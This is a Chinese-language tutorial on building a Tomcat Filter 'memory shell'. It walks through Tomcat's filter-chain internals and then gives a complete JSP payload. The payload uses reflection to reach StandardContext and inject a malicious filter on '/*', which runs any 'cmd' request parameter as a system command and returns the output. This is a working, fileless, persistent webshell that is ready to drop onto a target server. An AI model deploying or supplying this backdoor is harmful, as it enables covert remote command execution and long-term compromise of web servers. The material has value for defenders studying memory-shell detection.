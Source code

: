 ## Tomcat-Filter内存马

## 基础介绍

`filter`就相当于就是过滤器，是在servlet之前就会调用的。所以我们如果创建一个恶意的filter，其中放着可以进行RCE的代码，在访问servlet的时候就会触发这个恶意代码，从而实现一个Tomcat的内存马。

![image-20221122154601583](img/image-20221122154601583.png)

## 流程分析

demo代码:利用了注解，就不需要在web.xml文件中进行配置

```java
package memory.Filter;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.*;

@WebFilter(urlPatterns = "/*")
public class TestFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("init filter");
    }

    @Override
    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) throws IOException, ServletException {
        System.out.println("doFilter进入servlet前");
        chain.doFilter(req,resp);
        System.out.println("doFilter进入servlet后");
    }

    @Override
    public void destroy() {
        System.out.println("destroy filter");
    }
}

```

首先我们需要动态构建一个恶意的Filter并且调用触发`doFilter`这个重载方法，我们就需要这个函数怎么触发的？

![image-20221122123217536](img/image-20221122123217536.png)

在` internalDoFilter`方法中，从`filters`属性中获取一个`filterconfig`，然后进行调用`dofilter`方法

![image-20221122123454323](img/image-20221122123454323.png)

所以我们就需要在`ApplicationFilterChain`类的对象实例中设置filter属性为我们的恶意filter

继续看`ApplicationFilterChain`类的实例怎么获取的？

![image-20221122130309037](img/image-20221122130309037.png)

![image-20221122130253142](img/image-20221122130253142.png)

在`createFilterChain`方法中,`findFilterMaps`和`findFilterConfig`,这两个关键的方法来组装一个filterchain

![image-20221122130440842](img/image-20221122130440842.png)

一张经典的图展示这个过程

![img](img/20220216175207.png)



## 内存马流程分析

最关键的就是`findFilterMaps()`和`findFilterConfig()`两个方法，我们先看怎么实现的？

![image-20221122142312848](img/image-20221122142312848.png)

![image-20221122142329726](img/image-20221122142329726.png)

所以我们需要对`FilterMaps`和`FilterConfig`这两个属性进行设置

看`StandardContext`类，有没有相关的方法可以设置属性

首先看filtermaps，StandardContext直接提供了对应的添加方法(Before是将filter放在首位，正是我们需要的)，这里再往filterMaps添加之前会有一个校验filtermap是否合法的操作，跟进`validateFilterMap()`:

![image-20221122144913557](img/image-20221122144913557.png)



这个位置它会根据filterName去寻找对应的filterDef，如果没找到的话会直接抛出异常，也就是说我们还需要往filterDefs里添加filterDef。

![image-20221122145052952](img/image-20221122145052952.png)

再看filterDefs，StandardContext也直接提供了对应的添加方法:

![image-20221122145136900](img/image-20221122145136900.png)

继续看filterConfigs,没有addFilterConfig这个方法，我们利用反射进行赋值

还需要注意的是：

![image-20221122161550382](img/image-20221122161550382.png)

![image-20221122161738576](img/image-20221122161738576.png)

所以我们还需要设置Dispatcher，设置DispatcherType.REQUEST.name()就可以了

![image-20221122162014792](img/image-20221122162014792.png)

总结下Filter型内存马(即动态创建filter)的步骤:

>1.获取StandardContext
>
>2.编写一个恶意的filter
>
>3.实例化一个FilterDef类，包装filter并存放到StandardContext.filterDefs中
>
>4.实例化一个FilterMap类，将我们的 Filter 和 urlpattern 相对应，存放到StandardContext.filterMaps中
>
>5.通过反射获取filterConfigs，实例化一个FilterConfig(ApplicationFilterConfig)类，传入StandardContext与filterDefs，存放到filterConfig中

代码：

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "z3eyond";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Inject Success !");
    }
%>
```

参考文章：

https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%AE%89%E5%85%A8/%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Filter%E5%9E%8B/

### 获取StandardContext方法

```java
ServletContext servletContext = request.getSession().getServletContext();

Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
```


